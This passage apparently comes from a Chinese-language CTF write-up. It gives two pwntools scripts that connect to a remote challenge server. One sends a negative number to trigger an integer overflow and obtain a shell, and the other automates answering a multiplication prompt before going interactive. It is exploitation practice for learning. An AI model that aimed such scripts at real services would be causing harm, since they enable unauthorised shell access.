#### yiyi看着这道题说道：“pwn还不是轻轻又松松，这不一眼整数overflow。”

``` python
from pwn import *

context.log_level = 'debug'

p = remote('124.221.156.93', 32923)

p.recvuntil(b'Please input a number to getshell: ')

payload = b' -2147483645\n'

p.send(payload)

p.interactive()
```


#### math_game


``` python
from pwn import *

context.log_level = 'debug'  # 开启调试日志
p = remote('124.221.156.93', 32952)

# 1. 处理欢迎消息
p.recvuntil(b"press the Enter key")
p.sendline()

# 2. 接收完整数学问题行（例如："What is 9367 * 206?\n"）
question_line = p.recvuntil(b'=').decode().strip()  # 接收直到问号
print("[DEBUG] 完整问题行:", question_line)

# 3. 使用正则表达式提取两个数字
import re
match = re.search(r'(\d+)\s*\*\s*(\d+)', question_line)
if not match:
    print("无法提取数字！")
    exit()

v3 = int(match.group(1))
v2 = int(match.group(2))
print(f"[DEBUG] 提取数字: {v3} * {v2}")

# 4. 计算并发送答案
product = v3 * v2
p.sendline(str(product).encode())

# 5. 进入交互模式
p.interactive()
```

